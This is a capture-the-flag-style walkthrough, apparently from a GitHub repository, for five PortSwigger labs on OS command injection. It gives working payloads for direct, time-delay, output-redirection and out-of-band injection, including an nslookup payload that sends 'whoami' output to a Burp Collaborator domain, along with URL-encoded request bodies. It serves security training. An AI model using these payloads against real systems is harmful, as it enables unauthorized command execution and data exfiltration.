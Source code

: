 ## OS command injection vulnerabilities




### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.
- append `|whoami` or `;whoami` to the `storeId` parameter 
- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)
- check the name in the response



<img src=".\command_injection_img\1_1.png" style="zoom:80%;" />





------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request







------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](.\command_injection_img\2_1.png)





------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src=".\command_injection_img\3_1.png" style="zoom:80%;" />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src=".\command_injection_img\3_2.png" style="zoom:80%;" />



------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src=".\command_injection_img\4_1.png" style="zoom:80%;" />







------





